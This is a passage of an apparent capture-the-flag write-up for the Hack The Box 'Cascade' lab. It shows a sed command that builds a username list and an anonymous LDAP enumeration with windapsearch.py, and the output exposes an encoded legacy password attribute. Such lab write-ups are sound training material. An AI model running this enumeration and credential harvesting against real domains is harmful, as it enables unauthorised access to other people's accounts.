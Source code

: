 ```bash
group:[Domain Computers] rid:[0x203]
group:[Group Policy Creator Owners] rid:[0x208]
group:[DnsUpdateProxy] rid:[0x44f]
```

# Copy to the file:

` sed -i 's/^user:\[\(.*\)\] rid:\[.*\]$/\1/' user `
     

```bash
┌──(singhx㉿kali)-[~/htb/cascade]
└─$ cat user    
CascGuest
arksvc
s.smith
r.thompson
util
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
BackupSvc
j.allen
i.croft
```

# Enumerate using windapsearch.py:

```bash
└─$ ./windapsearch.py  -U --full --dc-ip 10.10.10.182
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.10.182
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=cascade,DC=local
[+] Attempting bind
[+]     ...success! Binded as: 
[+]      None

[+] Enumerating all AD users
[+]     Found 15 users: 

sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```
